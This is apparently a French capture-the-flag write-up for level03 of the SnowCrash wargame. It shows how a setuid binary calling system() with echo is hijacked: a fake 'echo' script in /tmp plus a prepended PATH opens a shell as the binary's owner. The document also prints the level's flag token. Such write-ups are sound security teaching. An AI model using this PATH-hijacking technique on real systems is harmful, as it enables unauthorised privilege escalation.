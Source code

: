 On trouve dans le dossier home un binaire ./level03 qui quand on le lance nous affiche un message:
<pre><code>> ./level03
Exploit me</code></pre>

On cherche a savoir ce que le binaire fait, pour cela on utilise ltrace:
<pre><code>> ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()											= 2003
geteuid()											= 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )
</code></pre>
On observe que le binaire fait un appel system pour faire un **echo**

Du coup nous essayons de changer cet appelle pour avoir acces a un shell avec les permissions de l'owner:

<pre><code>> echo "/bin/bash" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>
> Nous remplaçons le **/bin/echo** par un **/bin/bash** pour lancer une nouvelle instance de bash avec des droits plus élevés (ceux de l'owner).


On relance notre binaire:
<pre><code>> ./level03</code></pre>

Notre user passe de <code>level03@SnowCrash</code> à <code>flag03@SnowCrash</code>
Donc notre user a bien changé.

<pre>
<code>> getflag</code>
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</pre>
> La commande **getflag** est la seule commande que nous pouvons faire, bien evidemment, sinon il nous serait possible de faire ce que l'on veut sur l'ISO.


## Alternative

<pre><code>> echo "/bin/getflag" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>

On relance notre binaire:
<pre><code>> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</code></pre>